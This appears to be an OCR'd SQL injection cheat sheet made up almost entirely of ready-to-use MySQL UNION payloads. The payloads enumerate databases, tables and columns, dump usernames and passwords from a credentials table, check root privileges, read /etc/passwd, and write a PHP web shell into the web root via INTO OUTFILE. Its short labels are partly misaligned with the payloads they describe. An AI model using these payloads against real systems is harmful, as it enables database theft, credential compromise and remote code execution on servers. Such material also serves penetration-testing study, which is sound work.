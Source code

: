 # Targeted Test Cases

Basic Auth Bypass With comments

Detect number of columns using `order by`

`cn' UNION select 1,2,3-- -`

Detect number of columns using Union injection

`cn' UNION select 1,@@version,3,4-- -`

`UNION select username, 2, 3, 4 from passwords-- -`

Union injection for 4 columns

Fingerprint MySQL with query output

Fingerprint MySQL with no output

`cn' UNION select 1,database(),2,3-- -`

`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`

`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`

List all tables in a specific database

`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`

List all columns in a specific table

`cn' UNION select 1, username, password, 4 from dev.credentials-- -`

Dump data from a table in another database

`cn' UNION SELECT 1, user(), 3, 4-- -`

`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

Find if user has admin privileges

`cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -`

Find if all user privileges

`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

Find which directories can be accessed through MySQL

`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

`select 'file written successfully!' into outfile '/var/www/html/proof.txt'`

Write a string to a local file

`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

Write a web shell into the base web directory
